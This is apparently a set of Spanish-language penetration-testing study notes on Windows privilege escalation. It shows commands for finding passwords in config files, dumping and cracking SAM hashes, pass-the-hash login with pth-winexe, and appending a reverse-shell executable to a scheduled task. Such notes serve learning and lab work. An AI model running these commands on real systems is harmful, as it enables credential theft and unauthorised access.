 ### Archivos de configuración

- Algunos administradores dejan archivo de cconfiguración con contraseñas válidas 

```

> dir /s *pass* == *.config

> findstr /si password *.xml *.ini *.txt

> winPEASS quiet searchfast filesinfo
```

### SAM 

- Windows almacena contraseñas hashes en la SAM o también conocido como Security Account Manager, estan encriptados, pero podemos encontrar la key en el fichero de SYSTEM

> Transladar las KEYS y los ficheros SAM a la maquina host para desencriptarlos con herramientas como **creddump7** nos dumpea luego con john o hashcat para crackear. 
- Estan usualmente almacenadas en el directorio C:\Windows\System32\config

- La backup puede estar almacenadas en C:\Windows\System32\config\Regback o C:\Windows\Repair

### Passing the Hash

- Con esta técnica podemos directamente con los hashes dumpeadas anteriormente directamente conectarnos a un usuario solo proporcionando el hash.  pth-winexe

```
> pth-winexe -U 'admin%hash' --system //10.10.10.X cmd.exe
```


## Scheduled Tasks
  
  - Windows puede estar configurado para correr tareas en un momento en concreto o cuando triggerea un evento, las tareas siempre corren con los privilegios de quien ha sido configurada la tarea //similias a las crontab, también es importante fijarse en archivos donde nos indique las tareas.

```
> schtasks /query /fo LIST /v

> accesschk.exe /accepteula -qvu // para ver los permisos 

```

- Añadimos al scirpt la ejecución de una shell a nuestra maquina host 
-> echo C:\PrivEsc\shell.exe >> TAREA 




## Insecures GUI Apps
- En las versiones antiguas del windows, el usuario podía estar asignados con los permisos de correr certos GUI apps con los privilegios de un administrador, por lo que se podía ser aprovechada para spawnear shells.
